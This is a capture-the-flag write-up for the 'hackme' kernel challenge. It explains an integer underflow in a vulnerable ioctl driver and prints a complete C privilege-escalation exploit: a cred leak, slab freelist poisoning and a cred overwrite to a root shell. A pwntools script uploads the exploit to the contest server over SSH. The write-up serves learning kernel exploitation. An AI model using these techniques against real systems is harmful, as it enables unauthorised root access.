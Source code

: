 ## hackme

This is a kernel exploitation challenge that requires us to get root to read the flag, and I failed to solve it in contest, but let's see.

An `ioctl` is implemented in `hackme.ko`. There are 4 commands: to create memory chunk using `kmalloc`, to delete memory chunk using `kfree`, to read memory chunk using `copy_to_user` and to write the memory chunk using `copy_from_user`. When reading and writing the memory chunks, `offset` and `size` can be specified to only read or write part of the memory chunk. Here is where the vulnerability comes from: there is an integer overflow.

```c
v9 = v19.idx;
v10 = pool[v9].buf;
v11 = &pool[v9];
if ( v10 && v19.off + v19.size <= v11->max_size )
{
  //when v19.off == -0x200L and v19.size == 0x200L
  //we can have a underflow
  //also works for read operation
  copy_from_user(&v10[v19.off], v19.usrbuf, v19.size);
  return 0LL;
}
```

### First Attempt

I initially tried to use [this method](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_uaf/). In one word, `kfree` a chunk with same size as `struct cred`, and then `fork`, so that the `struct cred` of new process will be the same one as the chunk just being `kfree`ed. Then rewrite this `struct cred` by underflow. However, this does not seem work. Since the `struct cred` of new process is not the same one as the one just being `kfree`ed. I don't know the reason. Maybe it is because the kernel version since that one is `4.4.72` and this one is `4.20.13`, or it is because the `flag` argument of `kmalloc` is different.

### Second Attempt

Then I tried to leak the `cred` first, using `prctl(PR_SET_NAME, comm)`. The detail is [here](https://poppopret.org/2015/11/16/csaw-ctf-2015-kernel-exploitation-challenge/). This works if I read `0x100000L` bytes. Also, we can also leak the address of our memory chunks by reading `next` pointer of freed chunk. After leaking addresses, I found `cred` is very far from the memory chunks, so we cannot rewrite it directly because that will cause kernel panic. 

The correct approach is to rewrite `next` pointer of the free list, a bit similar to `tcache poisoning` in `ptmalloc` exploitation. We can let `kmalloc` return an address near the `cred`, so we can rewrite `cred`. However, we don't want the free list to be corrupted since that will cause kernel panic, so we need to find a memory region whose first 8 bytes are all 0, fortunately `QWORD PTR [address of cred - 0x10] == NULL`.

Final exploit

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <sys/prctl.h>
#include <memory.h>
#include <string.h>
#include <assert.h>

char tab[] = {'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H',
'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P',
'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X',
'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f',
'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n',
'o', 'p', 'q', 'r', 's', 't', 'u', 'v',
'w', 'x', 'y', 'z', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', '+', '/'};


struct data
{
	unsigned int idx;
	char *usrbuf;
	size_t size;
	size_t off;
};
#define BUF_SIZE 0x100000L
struct data param = {0};
char buffer[BUF_SIZE] = {0};
int fd;

void init()
{
	fd = open("/dev/hackme",0);
	if (fd < 0)
		exit(-1);
	param.usrbuf = buffer;
}

void error_exit(char* msg)
{
	puts(msg);
	exit(-1);
}

void kmalloc(unsigned int idx, size_t size, char sig)
{
	memset(buffer, sig, sizeof(buffer));
	param.size = size;
	param.idx = idx;
	int ret = ioctl(fd, 0x30000, &param);
	if (ret < 0) error_exit("Error: kmalloc");
}

void write_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30002, &param);
	if (ret < 0) error_exit("Error: write_memory");
}

void read_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30003, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void kfree(unsigned int idx)
{
	param.idx = idx;
	int ret = ioctl(fd, 0x30001, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void printhex(char* pbuf, size_t size)
{
	unsigned char* buf = (unsigned char*)pbuf;
	for (size_t i = 0; i < size; ++i)
	{
		printf("%.2x", buf[i]);
	}
	printf("\n");
}

char comm[] = "201920192019";
#define CHUNK_SIZE 0x40L
int main(int argc, char const *argv[])
{
	uintptr_t cred;
	//if (argc == 1) exit(-1);
	prctl(PR_SET_NAME, comm);
	//size_t credsize = strtoul(argv[1], 0, 16);
	init();

	for (int i = 0; i < 64; ++i)
	{
		kmalloc(i, CHUNK_SIZE, tab[i]);
	}
	read_memory(63, BUF_SIZE, -BUF_SIZE);
	char* ret = (char*)memmem(buffer, sizeof(buffer), comm, sizeof(comm) - 1);
	if (ret)
	{
		cred = *(uintptr_t*)(ret - 8);
		assert(*(uintptr_t*)(ret - 0x10) == cred);

		//write(1, buffer, BUF_SIZE);
		printf("%p %p\n", (void*)(ret - buffer), (void*)cred);
		puts(ret);
	}

	const size_t LEAK_SIZE = 0x400L;

	puts("Before: ");
	kfree(62);

	kfree(61);
	read_memory(63, LEAK_SIZE, -LEAK_SIZE);
	//printhex(buffer, LEAK_SIZE);

	uintptr_t addr_62 = *(uintptr_t*)(buffer + LEAK_SIZE - CHUNK_SIZE*2);
	printf("%p\n", (void*)addr_62);

	*(uintptr_t*)buffer = cred - 0x10;
	write_memory(63, CHUNK_SIZE*2, -CHUNK_SIZE*2);


	memset(buffer, 0, CHUNK_SIZE);
	kmalloc(61, CHUNK_SIZE, '\x00'); //consume a chunk
	kmalloc(62, CHUNK_SIZE, '\x00'); //rewrite cred here

	system("/bin/sh");
    // execve will cause kernel panic, no idea why
    // and the exploit works for 80% probability

	return 0;
}
```

upload.py
```python
#musl-gcc -static exp.c -o ./fs/home/pwn/exp
from pwn import *
import base64
context(log_level='debug', arch='amd64')

HOST = "35.221.78.115"
PORT =  10022
USER = "pwn"
PW = "pwn"
BIN = "./fs/home/pwn/exp"

def exec_cmd(sh, cmd):
	sh.sendline(cmd)
	sh.recvuntil("$ ")

if __name__ == "__main__":
	sh = ssh(USER, HOST, PORT, PW).run("/bin/sh")
	with open(BIN, "rb") as f:
		data = f.read()
	encoded = base64.b64encode(data)
	sh.recvuntil("$ ")

	once_size = 0x200
	for i in range(0, len(encoded), once_size):
		exec_cmd(sh, "echo -n \"%s\" >> benc" % (encoded[i:i+once_size]))
		print float(i)/len(encoded)

	exec_cmd(sh, "cat benc | base64 -d > exp")
	exec_cmd(sh, "chmod +x exp")
	sh.interactive()
```


`*CTF{userf4ult_fd_m4kes_d0uble_f3tch_perfect}`
